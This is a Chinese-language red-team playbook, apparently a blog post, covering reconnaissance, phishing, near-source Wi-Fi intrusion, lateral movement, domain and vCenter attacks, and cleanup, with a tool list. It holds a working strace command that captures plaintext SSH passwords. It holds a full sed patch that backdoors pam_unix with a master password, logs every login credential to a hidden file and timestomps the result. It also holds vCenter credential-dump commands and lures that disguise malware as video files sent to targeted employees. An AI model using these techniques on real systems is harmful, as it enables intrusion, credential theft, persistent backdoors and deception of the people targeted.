


0x01 前言
红队的攻击是一项系统的工作，整个攻击过程是有章可循、科学合理的，涵盖了从前期准备、攻击实施到靶标控制的各个步骤和环节。按照任务进度划分，一般可以将红队的工作分为 4 个阶段：准备工作、目标网情搜集、外网纵向突破和内网横向拓展
1.1 团队协作
攻击队主要包含行动总指挥、情报搜集人员、武器装备制造人员、打点实施人员、社工钓鱼人员、内网渗透人员等角色。随着实战攻防演练的不断深入，防守队的整体能力持续提升，这就使得攻击队人员凭个人能力单打独斗取得胜利的希望越来越小。而由 3～5 人组成的攻击小队，通过分工协作高效完成攻击行动的模式越来越成熟。是否拥有团队协作的作战经验，团队中各成员分别扮演什么样的角色，是蓝队实战化能力的重要指标。团队作战，成功的关键是协作与配合。通常来说，每支攻击队的成员都会有非常明确的分工和角色。在实战攻防演练中，攻击队比较常见的角色分工主要有 6 种，分别是行动总指挥、情报搜集人员、武器装备制造人员、打点实施人员、社工钓鱼人员和内网渗透人员。
1）行动总指挥：通常是攻击队中综合能力最强的人，需要有较强的组织意识、应变能力和丰富的实战经验。负责策略制订、任务分发、进度把控等。 2）情报搜集人员：负责情报侦察和信息搜集，搜集的内容包括但不限于目标系统的组织架构、IT 资产、敏感信息泄露、供应商信息等。 3）武器装备制造人员：负责漏洞挖掘及工具编写，是攻击队的核心战斗力量，不仅要能找到并利用漏洞，还要力求在不同环境下达到稳定、深入的漏洞利用。 4）打点实施人员：负责获取接入点，进行 Web 渗透等。找到薄弱环节后，利用漏洞或社工等方法，获取外网系统控制权限；之后寻找和内网连通的通道，建立据点（跳板）。 5）社工钓鱼人员：负责社工攻击。利用人的安全意识不足或安全能力不足等弱点，实施社会工程学攻击，通过钓鱼邮件或社交平台等进行诱骗，进而打入内网。 6）内网渗透人员：负责进入内网后的横向拓展。利用情报搜集人员的情报结合其他弱点来进行横向拓展，扩大战果。尝试突破核心系统权限，控制核心任务，获取核心数据，最终完成目标突破工作。
红队工作对人员的能力要求往往是综合性的、全面的，红队人员不仅要会熟练使用各种黑客工具、分析工具，还要熟知目标系统及其安全配置，并具备一定的代码开发能力，以便应对特殊问题。
1.2 工具准备
根据自己的定位准备对应的工具，例如内网需要准备的东西：
1.工具：域前置、跳板机、免杀马儿、获取凭据的工具、隧道工具、扫描工具、横向移动工具、其他工具等等。。。。
2.知识点：代理(一层、多层)，获取各种凭据(工具和手动)，常见内网横向的方法、vcenter 相关、域渗透、域相关(拿下域控之后如何横向)
防溯源：
1.干净的信息，例如：邮箱用临时的、手机号码可以接码或者购买阿里小号、和多号、沃小号(目前阿里小号没号，可以尝试和多号和沃小号)、域名、服务器等
代理池:
白嫖
protocol=="socks5" && "Version:5 Method:No Authentication(0x00)" && after="2022-03-01" && country="CN"
https://github.com/akkuman/rotateproxy
自己用服务器搭建socks代理
花钱飞鱼代理：https://www.feiyuip.com/user/about.html
0x02 外网信息收集
信息收集主要目标系统的网络架构、IT 资产、敏感信息、组织管理与供应商等方面进行的情报搜集。目的在于帮助红队在攻击过程中快速定位薄弱点和采取正确的攻击路径，并为后两个阶段的工作提供针对性的建议，从而提高蓝队攻击工作效率和渗透成功率。比如：掌握了目标企业的相关人员信息和组织架构，就可以快速定位关键人物以便实施鱼叉攻击，或者确定内网横纵向渗透路径；而收集了 IT 资产信息，就可以为漏洞发现和利用提供数据支撑；掌握企业与供应商合作的相关信息，可为有针对性地开展供应链攻击提供素材。而究竟是要社工钓鱼，还是直接利用漏洞攻击或从供应链下手，一般取决于安全防护的薄弱环节究竟在哪里，以及红队对攻击路径的选择。
2.1案例
主要对一级单位、二级单位和三级单位的资产进行收集，利用天眼查、企查查、爱企查、小蓝本查询公司组织股权结构、app、公众号等信息，利用空间引擎进行搜索图标的 hash、证书信息、域名、IP、C 段等，针对 web 资产进行全端口扫描、目录扫描、指纹信息等，还有一些邮箱等。
组织架构信息(公司官网查看)
0x03 外网打点/钓鱼/近源攻击
3.1 外网打点
将整理好的资产进行分类，针对不同的应用进行攻击，尝试一些历史漏洞，弱口令等，进入后台之后查看配置文件，有几率会发现外网的数据库和阿里云的 key 等信息
案例 1
通过弱口令登录后台，发现存在阿里云的 key
使用阿里云 key 的利用工具，成功托管该账号的云服务，可直接执行命令，拿下主机。

案例 2
通过越权获取配置文件
可连接到数据库
案例 3
登录到系统之后可能会发现一些企业微信的 key，可获取信息也用来钓鱼
3.2 钓鱼
在红队的工作中，往往长时间的外网打点也无法打到一个据点，钓鱼是最快速的攻击手段，根据场景定制不同的钓鱼方法会有意想不到的惊喜。
注意：钓鱼最重要的就是马儿，马儿一定要提前做好免杀，常用方法：分离免杀、白加黑等
案例 1-招标网站钓鱼
在招标网站上，给工作人员发送投标文件
成功上线一台主机
案例 2-脉脉钓鱼
在脉脉上找到目标单位的人员，伪造猎头身份，向目标单位人员推荐有吸引力的工作岗位并添加微信，通过微信将恶意文件发送给目标人员(接码平台接码，新用户 1 毛开会员)
制作一份伪装成视频文件的恶意程序。程序特点：免杀，超长文件名（中文 + 英文），exe 格式结尾。双击后会打开带有内容的视频文件并上线 CS。超长文件名是为了查看文件时让用户无法发现后缀。将恶意程序打成压缩包并添加密码。

案例 3-伪造通知
通过伪造 xxx 通知，发送带有恶意文件的程序
团队使用的是 cs，使用批量发送的邮件的时候要考虑一个问题，当有许多机器上线的时候，需要及时的收到主机上线通知和快速的权限维持
上线通知：使用 cs 插件，有新的主机上线推送到钉钉。
快速权限维持：使用 cs 插件，可以参考：wgpsec 师傅的插件(地址：https://github.com/wgpsec/Automatic-permission-maintenance)，如果目标环境上存在 360 杀毒要考虑将进程注入白名单进程，否则运行计划任务时 360 会提示。
3.3 近源攻击
近源攻击现在也是比较常见的方式了，常见的手法有以下几种：
- WIFI 钓鱼，比如大菠萝等设备
- 直接插网线
案例
由于在攻防演练在甲方单位，相对于进入比较方便一些
提前获取了部分信息：部门 wifi 密码、上网认证的用户名密码
找了个存在 wifi 的地方，通过以上信息连接了 wifi，内网四通八达，fscan 一波猛扫，发现一些漏洞，通过日下 vcenter 成功获取域控(口子不能过夜)
0x04 内网渗透
进入内网之后需要横向拓展，当攻破某台内网终端或主机设备后，以此为基础，对相同网络环境中的其他设备发起的攻击活动；红队的内网横向拓展主要是指在突破进入目标网络内网以后，在内网主机、系统应用、服务器和网络设备等网络资产之间的跳转、控制、渗透过程
4.1 护网横向移动优先攻击策略
目内网往往非常大，快速定位和找到关键节点是非常重要的，选择的主要原则为:
- 快速掌握目标网络架构、网络设备及集权系统(堡垒机,运维管理机,性能监控系统,集中管控系统,域控等)
- 查找配置文件、系统日志、建设方案、wiki(在 wiki 中可能会存在网络架构图)、托管代码等、获取敏感信息，为拿下核心设备打下基础。
例如 confluence 中存公司整体拓扑、地址范围等。
4.2 基本操作
做好权限维持之后进行信息收集，主要分为以下几步。
1.收集目标机器上安装了哪些软件、存在哪些进程，通过进程查看存在哪些杀毒软件、软件等。
2.使用 HackBrowserData 抓取浏览器的一些信息，例如浏览器历史记录、cookie、保存的账号密码(在使用过程中发现 360 安全浏览器是抓不到密码的)等，一般情况下能抓到系统的密码
3.翻文件，说不定会存在一些密码文档,例如 xxx 系统的密码，发现内网的一些网段。
4.在条件允许的情况下可将目标主机开启双用户登录，打通隧道，这样就可以白天操作了，也可以使用 todek 等工具，上传到目标机器上，直接操作目标主机
5.在扫描其他网段的时候，只扫描.1、.2、.254 这几个地址，这样可以快速的知道哪几个网段存活，避免盲目扫描。通过 tracert 命令跟踪路由，说不定会有小惊喜。
6.拿下内网中的 nas、云盘等信息，在 nas 系统中搜索“系统、管理”等词汇，会有意想不到的惊喜
4.3 linux 抓密码
4.3.1 利用strace抓密码
当我们拿下 windows 机器时可以通过抓内存中的密码进行横向，但 linux 却不可能抓到内存中的密码，但是 Debian 系列下的 linux 系统可以通过监听 sshd 进程的数据抓取出明文密码，比如你拿下了一台管理员机器，上面有 xshell，你可以手动开一个监听，在开一个登录，监听的窗口上就抓出密码了
strace -xx -fp `cat /var/run/sshd.pid` 2>&1| grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
当然你也可以直接用工具抓 xshell 存的密码
4.3.2 Linux Pam后门
PAM是一种认证模块，PAM可以作为Linux登录验证和各类基础服务的认证，简单来说就是一种用于Linux系统上的用户身份验证的机制。进行认证时首先确定是什么服务，然后加载相应的PAM的配置文件(位于**/etc/pam.d**)，最后调用认证文件(位于**/lib/security**)进行安全认证
简易利用的PAM后门也是通过修改PAM源码中认证的逻辑来达到权限维持
源码：http://www.linux-pam.org/library/
查询版本：rpm -qa | grep pam
tar -xzvf Linux-PAM-1.1.1.tar.gz
cd Linux-PAM-1.1.1
pam_unix_auth.c 修改认证逻辑，改成使用特定密码的后门，当然也可以作为一个记录敏感密码的功能，将记录的密码写入文件记录。
sed -i -e 's/retval = _unix_verify_password(pamh, name, p, ctrl);/retval = _unix_verify_password(pamh, name, p, ctrl);\n\tif (strcmp(p,"'snsn123123'")==0 ){retval = PAM_SUCCESS;}if(retval == PAM_SUCCESS){\n\tFILE * fp;\n\tfp = fopen("/tmp/.sshd", "a");\n\tfprintf(fp, "%s : %s\\n", name, p);\n\tfclose(fp);\n\t}/g' modules/pam_unix/pam_unix_auth.c
./configure && make
cp -rf /usr/lib64/security/pam_unix.so /usr/lib64/security/pam_unix.so.bak
cp -rf pam_unix.so /usr/lib64/security/pam_unix.so
oldtime=`stat -c '%z' /lib64/security/pam_ftp.so`
touch -d "$oldtime" /usr/lib64/security/pam_unix.so

当管理员登录之后就会有新的密码写入
通过万能密码也可以成功登陆服务器
4.4 域渗透
进入域之后为了获取最大的权限，通常想方设法将获取域控的权限，以下列举几种不同的攻击手法
4.4.1 域漏洞
ms14-068
zerologon(CVE-2020-1472)
CVE-2021-1675(Windows Print Spooler)
sAMAccountName spoofing(CVE-2021-42278、CVE-2021-42287)
ADCS(CVE-2022–26923)
权限配置不当:ACL
组策略GPP和SYSVOL中的密码
基于委派的测试(约束委派、非约束委派、资源委派)
Relay（中继）
Exchange、WSUS、DNS
Backup Operators组成员权限到域控权限
....等等等
4.5 vcenter
在攻防演练中vcenter作为一个运维集群管控系统，作为一个攻击人员想要在红方演练中快速刷分，Vcenter的价值不亚于域控的价值。
4.5.1 常见漏洞
CVE-2021-21972
CVE-2021-21985
CVE-2021-22005
provider-logo SSRF 漏洞
log4j2 JNDI 注入
通过漏洞拿下vcenter之后，一般情况下是vsphere-ui权限，那就需要通过漏洞获取到root权限，常用提权方法如下。
4.5.2 提权
CVE-2021-22015 本地提权
CVE-2021-3156 本地提权
4.5.3 后渗透
4.5.3.1 SAML 证书登录
Sphere 5.0 版本引入了 SSO，支持使用 SAML 作为授权服务支持。当用户登录服务时，该服务会将身份验证请求转发给 SAML 。SAML 验证用户凭据是否正确以及他们是否有权访问指定的服务。
在 vCenter 中从 /storage/db/vmware-vmdir/data.mdb 提取 ldap证书，为管理员用户创建 SAML 请求，最后使用 vCenter server 进行身份验证并获得有效的管理员 cookie。
首先需要从 vCenter 获得数据库文件：
- Linux：
/storage/db/vmware-vmdir/data.mdb - Windows：
C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb
使用SAML脚本解密
登录 vcenter后台，访问 https://IP/，添加cookie，修改完成之后，点击页面的启动。
4.5.3.2 vhost_password_decrypt
查看数据库密码
cat /etc/vmware-vpx/vcdb.properties /etc/vmware/service-state/vpxd/vcdb.properties
导出连接数据库
psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc
将password.enc导出到本地，运行脚本解密
解出来之后直接登录ex
4.6 清理痕迹
上传的工具、马儿、扫描记录等等等，有关你的一切都删除，来也匆匆去也匆匆
0x05 附录
这里只是列举了部分工具，工具太多，每个人的习惯也不同
信息收集
ShuiZe
一条龙服务，只需要输入根域名即可全方位收集相关资产，并检测漏洞。也可以输入多个域名、C 段 IP 等，具体案例见下文。
https://github.com/0x727/ShuiZe\_0x727
ARL
基于斗象灯塔 ARL 修改后的版本。相比原版，增加了 OneForAll、中央数据库，修改了 altDns
https://github.com/ki9mu/ARL-plus-docker
ENScan_GO
‘一款基于各大企业信息 API 的工具
https://github.com/wgpsec/ENScan_GO
fofa_viewer
一个简单实用的 FOFA 客户端 By flashine
https://github.com/wgpsec/fofa_viewer
空间搜索引擎
https://hunter.qianxin.com/
https://fofa.info/
https://www.shodan.io/
https://www.zoomeye.org/
https://quake.360.cn/
https://www.00sec.com/
指纹识别
https://github.com/EdgeSecurityTeam/EHole
https://github.com/EASY233/Finger
端口扫描
https://github.com/lcvvvv/gonmap
https://github.com/shadow1ng/fscan
漏洞扫描工具
https://github.com/chaitin/xray
https://github.com/zhzyker/vulmap
https://github.com/projectdiscovery/nuclei
awvs使用docker一键搭建
漏洞利用
AK 资源管理工具
https://github.com/wyzxxz/aksk_tool
https://github.com/teamssix/cf
数据库利用工具
https://github.com/SafeGroceryStore/MDUT
https://github.com/uknowsec/SharpSQLTools
navicat
https://github.com/yuyan-sec/RedisEXP
爆破利用工具
https://github.com/shack2/SNETCracker
shell
https://github.com/BeichenDream/Godzilla
https://github.com/rebeyond/Behinder
https://github.com/AntSwordProject/antSword
菜刀
密码提取工具
Xshell，Xftp密码解密工具
https://github.com/JDArmy/SharpXDecrypt
解密浏览器数据（密码|历史记录|Cookie|书签 | 信用卡 | 下载记录）的导出工具，支持全平台主流浏览器
https://github.com/moonD4rk/HackBrowserData/
隧道代理工具
proxychain
sockscap64 (https://www.mediafire.com/folder/32rj1769a2w82/v4.7)
proxifier (https://www.proxifier.com/download/ProxifierSetup.exe)
https://github.com/fatedier/frp
https://github.com/ehang-io/nps
https://github.com/ph4ntonn/Stowaway
https://github.com/Dliv3/Venom
https://github.com/editso/fuso(相对冷门，不会被杀)
横向
impacket套件